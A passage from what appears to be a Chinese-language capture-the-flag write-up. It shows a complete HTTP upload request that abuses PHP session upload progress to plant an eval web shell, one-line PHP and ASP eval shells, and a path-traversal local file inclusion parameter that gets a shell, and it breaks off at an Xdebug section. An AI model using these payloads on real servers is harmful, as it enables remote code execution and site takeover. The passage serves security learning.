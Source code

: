 &emsp;&emsp;首先构造一个这样的报文(from @berTrAM)，不断的向服务端发送
```
POST / HTTP/1.1
Host: 47.52.246.175:23333
Proxy-Connection: keep-alive
Content-Length: 648
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2rwkUEtFdqhGMHqV
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5uu8r952rejihbg033m5mckb17

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?=`echo '<?php eval($_REQUEST[bertram])?>'>bertram.php`?>
------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file2"; filename="1.php"
Content-Type: text/php

<?php eval($_POST[1]);?>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="file1"; filename="2.asp"
Content-Type: application/octet-stream

< %eval request("a")%>

------WebKitFormBoundary2rwkUEtFdqhGMHqV
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundary2rwkUEtFdqhGMHqV--
```
&emsp;&emsp;服务器就会在`/var/lib/php5/sess_5uu8r952rejihbg033m5mckb17`中记录这个上传的文件。接着我们不断刷新生成包含恶意php代码的文件，然后通过LFI包含这个文件
```
action=../../../../../var/lib/php5/sess_5uu8r952rejihbg033m5mckb17
```
&emsp;&emsp;即可getshell

## 2、xdebug
&emsp;&emsp;要使用`Xdebug`get shell，首先服务器要开启如下参数：
<div align="center">
    <img src="/images/posts/n1ctf/60.png" />  
</div>